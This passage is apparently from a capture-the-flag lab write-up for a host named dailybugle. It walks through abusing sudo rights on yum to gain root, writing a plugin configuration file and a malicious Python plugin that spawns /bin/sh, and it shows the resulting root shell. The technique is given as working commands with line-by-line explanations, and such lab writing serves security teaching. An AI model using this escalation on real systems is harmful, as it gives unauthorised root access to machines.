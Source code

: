 - `plugins=1` → **Enables Yum plugins**.
- `pluginpath=$TF` → Tells Yum to **load plugins** from the attacker's folder.
- `pluginconfpath=$TF` → Sets the **plugin configuration file path** to the attacker's folder.

---

#### **3. Create the Plugin Configuration File (`y.conf`)**

This file **enables the malicious plugin**.

```bash
[jjameson@dailybugle tmp]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
```

- `enabled=1` → **Activates** the plugin.

---

#### **4. Create the Malicious Plugin (`y.py`)**

This Python script is the **actual exploit**. It will execute **a root shell** when Yum loads it.

```bash
[jjameson@dailybugle tmp]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
```

##### **How This Works:**

- `import os` → Access to system functions.
- `import yum` → Integrates with Yum.
- `requires_api_version='2.1'` → Required for Yum plugins.
- `def init_hook(conduit):` → **Runs when the plugin is loaded.**
- `os.execl('/bin/sh', '/bin/sh')` → **Spawns a root shell**.

---

#### **5. Execute Yum to Trigger the Exploit**

Now, the attacker runs Yum with the malicious plugin:

```bash
[jjameson@dailybugle tmp]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
```
